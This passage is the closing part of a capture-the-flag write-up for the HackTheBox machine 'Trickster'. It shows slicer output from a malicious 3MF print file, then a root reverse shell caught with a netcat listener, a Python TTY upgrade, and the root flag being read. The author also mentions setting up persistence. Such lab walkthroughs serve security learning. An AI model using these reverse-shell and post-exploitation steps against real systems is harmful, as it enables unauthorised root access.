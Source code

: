 ```shell
Collapsing overhang
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Low bed adhesion
TRICKSTER.HTB, Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to /tmp/TRICKSTER.gcode
```

## Root Shell

We are returned a root shell from the target machine, as root slices the file and runs the maliicous code, spawning a reverse shell. From here we have gained access to the root flag and we can perform any necessary steps to create persistence in the environment.

```shell
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/3mfFile]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.34] 60666
# whoami
root
# which python3
/usr/bin/python3
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@trickster:/home/adam# 

root@trickster:/home/adam# export TERM=xterm-256color
export TERM=xterm-256color
root@trickster:/home/adam# 

root@trickster:/home/adam# ^Z
zsh: suspended  nc -nlvp 4444
                                                                                                                   
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/3mfFile]
└─$ stty raw -echo;fg              
[1]  + continued  nc -nlvp 4444

root@trickster:/home/adam# 
root@trickster:/home/adam# 
root@trickster:/home/adam# cd 
root@trickster:~# ls
changedetection  root.txt  scripts  snap
root@trickster:~# cat root.txt
24361011eaea50d784c11b29d9808e79
root@trickster:~# 
```

